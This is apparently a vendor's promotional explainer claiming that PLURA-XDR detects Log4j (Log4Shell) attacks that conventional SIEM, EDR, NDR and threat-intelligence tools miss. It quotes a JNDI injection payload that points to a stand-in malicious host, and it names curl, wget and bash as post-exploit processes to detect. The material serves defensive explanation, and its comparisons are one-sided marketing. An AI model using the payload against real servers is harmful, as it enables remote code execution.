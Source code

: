 ## `Case 1` Detecting Log4j (Log4Shell) Vulnerability Attacks

### **1️⃣ Why Traditional Threat Hunting (SIEM + EDR + NDR + TI) Fails to Detect It**
| **Comparison Items** | **Traditional Threat Hunting (SIEM + EDR + NDR + TI)** | **PLURA Web Request Body Analysis + EDR** |
|----------|-------------------------------|-------------------------------|
| **Detection Method** | IOC (Threat Intelligence)-based detection → Relies on known pattern matching, making it difficult to detect new attacks | Behavior-based detection → Analyzes web request body and execution behaviors in real-time to detect new attacks |
| **Web Application Attack Detection** | Can analyze web request headers and URLs but cannot analyze malicious patterns within request bodies | **Can analyze web request bodies in real-time to detect JNDI invocation patterns** |
| **Network Traffic Analysis** | NDR can analyze packets after SSL decryption but cannot analyze request bodies | **Can analyze request bodies to detect JNDI patterns** |
| **Endpoint Security** | EDR can detect executed processes but struggles to correlate them with web application attacks | **EDR can detect remote code execution (RCE) and malicious process execution (Fork, Execve) in real-time** |

### **2️⃣ Detailed Explanation of Why Traditional Threat Hunting Fails**
1. **Limitations of SIEM + TI (Threat Intelligence)**  
   - Traditional SIEM and TI rely on **static IOC (Indicator of Compromise)-based detection**.  
   - Since they **detect threats based on known malicious IPs, domains, and file hashes**, they struggle to detect **newly emerging vulnerabilities like Log4j**.  
   - **Attackers can evade IOC matching by using new JNDI payload variations**.  

2. **Limitations of NDR (Network Detection & Response)**  
   - NDR can **analyze network traffic by decrypting SSL but lacks the ability to analyze request bodies (payloads) in depth**.  
   - As a result, it **cannot detect malicious payloads like `jndi:ldap://malicious.com/exploit` embedded within web requests**.  
   - Although network-layer anomalies may be detected, **NDR struggles to analyze logs in context**.  

3. **Limitations of EDR (Endpoint Detection & Response)**  
   - EDR can detect malicious process executions (`curl`, `wget`, `bash`, etc.) occurring within web servers.  
   - However, **it cannot directly analyze the source of an attack within web applications, making it difficult to correlate web requests with executed processes**.  
   - Without **a complete attack flow analysis (Web Request → Malicious Code Execution), false positives may occur**.  

---

### **3️⃣ Detecting Attacks with PLURA Web Request Body Analysis + EDR**
✅ **1) Detecting Malicious Patterns via Web Request Body Analysis**  
   - PLURA **analyzes web request bodies in real-time** to detect patterns like `jndi:ldap://malicious.com/exploit`.  
   - It detects **abnormal LDAP and RMI invocations within search fields, user input values, HTTP headers, and API request bodies**.  
   - Unlike traditional WAFs, **it can analyze various JNDI payload variations to detect obfuscated attacks**.  

✅ **2) Execution Behavior-Based Detection and Blocking (EDR Integration)**  
   - If an attack succeeds and results in remote code execution (RCE),  
   - PLURA EDR **detects new process creation events (Fork, Execve) at the kernel level**.  
   - For example, if processes like `curl`, `wget`, or `bash` execute post-exploit, they can be detected and blocked instantly.  

✅ **3) Correlating Attack Flows to Block Further Attacks**  
   - Even if an attack bypasses IOC-based detection, **PLURA can detect patterns where LDAP/RMI requests lead to specific process executions and preemptively block additional attacks**.  
   - Attackers attempting to **evade signature-based detection with JNDI payload modifications** can still be detected through **behavior analysis**.  

---

### **4️⃣ Log4j (Log4Shell) Attack Flow**  
```mermaid
graph TD
    A[Attacker] -->|Request containing JNDI Payload| B[Vulnerable Web Application]
    B -->|Log Stored| C[Log4j Vulnerability Exists]
    C -->|Performs JNDI Lookup| D[Connects to Malicious External Server]
    D -->|Sends Malicious Code| E[RCE Occurs on Web Server]
    E -->|Backdoor Installed| F[Attack Success]

    %% PLURA Detection and Response
    B -->|Web Request Body Analysis| X[PLURA Detection System]
    X -->|Detects JNDI Patterns| Y[Attack Blocked]
    E -->|Process Monitoring| Z[EDR Detection & Execution Blocking]
```

---

### **📌 Conclusion: Why PLURA Web Request Body Analysis + EDR Excels in Detecting Log4j Attacks**  
✅ **Traditional threat hunting (SIEM + EDR + NDR + TI) relies on IOC-based detection, making it difficult to detect new attack patterns like Log4j**.  
✅ **PLURA-XDR analyzes web request bodies and performs behavior-based detection, enabling real-time detection of Log4j attacks**.  
✅ **Capable of detecting attacks that bypass WAFs, credential stuffing, API abuse, and even ransomware attacks**.  
✅ **Through EDR integration, it detects and blocks additional attacker actions at the kernel level, such as malicious process execution, web shell installation, and file modifications (FIM)**.  

🔹 **PLURA-XDR is a next-generation security platform capable of detecting and blocking Zero-Day attacks that traditional security systems fail to catch.** 🚀

---
